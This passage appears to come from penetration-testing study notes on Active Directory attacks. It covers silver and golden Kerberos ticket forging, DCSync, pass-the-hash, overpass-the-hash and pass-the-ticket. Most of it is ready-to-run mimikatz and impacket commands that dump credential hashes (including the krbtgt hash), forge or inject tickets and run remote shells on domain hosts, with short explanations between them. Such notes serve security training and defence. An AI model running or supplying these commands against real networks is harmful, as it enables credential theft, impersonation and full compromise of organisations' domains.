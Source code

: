 4. Target user - `-user-id 500 Administrator`
5. Full command: ` impacket-ticketer -nthash $NTLMHash -domain-sid $SID -domain $domain.com -spn $SPN -user-id 500 Administrator`
Local (from mimikatz): `kerberos::golden /sid:S-1-5-21-1987370270-658905905-1781884369 /domain:$domain.com /ptt /target:$host.$domain.com /service:http /rc4:$NTLM_hash /user:$user`
- user is the existing user which will be set in the forged ticket, so if you want one for a user named `patsy`, the output will say `Golden ticket for 'patsy@domain.com' successfully submitted for current session.`

#### DC sync
This is where we impersonate a domain controller using the user account with *Replicating Directory Changes, Replicating Directory Changes All, and Replicating Directory Changes in Filtered Set rights*. (Domain Admins, Enterprise Admins, and Administrators by default). 
- Local (from Mimikatz): `lsadump::dcsync /user:$domain\$user` where ~user$ is the target we want like `corp\david`
- Remote: `impacket-secretsdump -just-dc-user $Targetuser $domain.com/$pwnedUser:"$password"@$IP`

#### Pass the Hash
There are multiple different kinds of pass the hash attacks, but they are performed by impacket for example:
`impacket-wmiexec -hashes :2892D26CDF84D7A70E2EB3B9F05C425E Administrator@192.168.50.73`

#### Overpass the Hash
Overpass the hash involves "over" abusing an NtLM user hash to gain a full TGT, which we can then use to obtain a *Ticket Granting Service* (TGS). In other words we **turn an NTLM hash into a Kerberos ticket and avoid the use of NTLM authentication**. 
- Local (using mimikatz): `sekurlsa::pth /user:$user /domain:$domain.com /ntlm:$NTLM /run:powershell`
	- If we run `whoami` on this powershell, it will say the ^user above rather than which user we logged in with
	- If we then authenticate using this ^user, such as using `net use \\smbserver` there will be a ticket cached. We can use `klist` to prove it. 

#### Pass the Ticket
Requires access to the domain as a user. 
The Pass the Ticket attack takes advantage of the TGS, which may be exported and re-injected elsewhere on the network and then used to authenticate to a specific service. In addition, if the service tickets belong to the current user, then no administrative privileges are required. 
- Local (using mimikatz): `sekurlsa::tickets /export`
	- Next: This exports the ticket (a `.kirbi` file) which we can find by searching `dir *.kirbi`. It will look like `[0;12bd0]-0-0-42830000-patches@cifs-web42.kirbi`. 
	- Next (from mimikatz): `kerberos::ptt [0;12bd0]-0-0-42830000-patches@cifs-web42.kirbi`
		- If you get no errors, you should be able to see it with `klist`. 

**Skeleton Key** - Full domain compromise (domain admin) required

#### Golden Ticket
Requires full domain compromise
Local (from mimikatz): 
- `privilege:debug`
- `lsadump::lsa /patch`
	- Output is the **SID** and **NTLM of the `krbtgt` account**. Once you have these two items, you can do this from any machine. 
- (new machine or old) `kerberos::purge`
- `kerberos::golden /user:$user /domain:$domain.com /sid:SID /krbtgt:$krbtgtNTLM /ptt` ($user is whoever we want to have admin permissions)
- `misc::cmd` - launches new command prompt from which we can use `PsExec.exe \\$targetmachine cmd.exe`
	- **Note: we must use the hostname rather than the IP address. This is because we are trying to use overpass the hash and authenticate using kerberos rather than NTLM.**
